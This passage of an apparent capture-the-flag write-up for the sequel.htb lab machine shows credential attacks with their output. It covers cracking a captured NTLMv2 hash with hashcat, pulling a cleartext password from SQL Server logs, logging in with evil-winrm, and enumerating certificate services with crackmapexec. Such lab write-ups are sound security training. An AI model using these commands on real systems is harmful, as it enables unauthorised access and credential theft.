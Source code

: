 With the impacket SMB server running, we then receive the hash for the `sql_svc` user. After running hashcat on this has using hashcat:

```bash
hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000000.txt 
hashcat (v6.2.6) starting

[SNIP] ...
.
.
[SNIP]

SQL_SVC::sequel:aaaaaaaaaaaaaaaa:daae76859e787e6d522ad6ddca545413:010100000000000000a0c76ed595da019d623090839fe4e300000000010010004900520050006a00770064007a006100030010004900520050006a00770064007a006100020010007a004d004d0051007100730079007800040010007a004d004d00510071007300790078000700080000a0c76ed595da01060004000200000008003000300000000000000000000000003000002c635dc16a7c3a57e9a209a1686c198f558ed3645c13ac6073673c3f32e0a4720a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00340030000000000000000000:REGGIE1234ronnie
```

Password Found: `REGGIE1234ronnie`

User found on the system:
```powershell
dir C:\Users\
Administrator
Public
Ryan.Cooper
```

After looking at the base of the system we then find a `SQLServer` folder with a Logs directory. This contains the login information for `Ryan.Cooper` in the last couple lines. It looks like he entered in his information wrong the first time, then incidentally put his password in as his username... Thus showing us the password in cleartext in the error logs.

```
[SNIP] ...
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
... [SNIP]
```
`Ryan.Cooper`:`NuclearMosquito3`

After logging in as `Ryan.Cooper` via `evil-winrm` and checking privileges with `whoami /all`/`whoami /priv` I didn't find anything useful. So from here I decided to run `winpeas.exe` on the host to search for any possible privilege escalation vectors.

At this point, it should be noted that on Windows domains, it's import to look for Active Directory Certificate Services(ADCS). A quick way to check for this is using `crackmapexec`.
```bash
crackmapexec ldap $IP -u ryan.cooper -p NuclearMosquito3 -M adcs
SMB         10.10.11.202    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAPS       10.10.11.202    636    DC               [+] sequel.htb\ryan.cooper:NuclearMosquito3 
ADCS                                                Found PKI Enrollment Server: dc.sequel.htb                                                
ADCS                                                Found CN: sequel-DC-CA
```
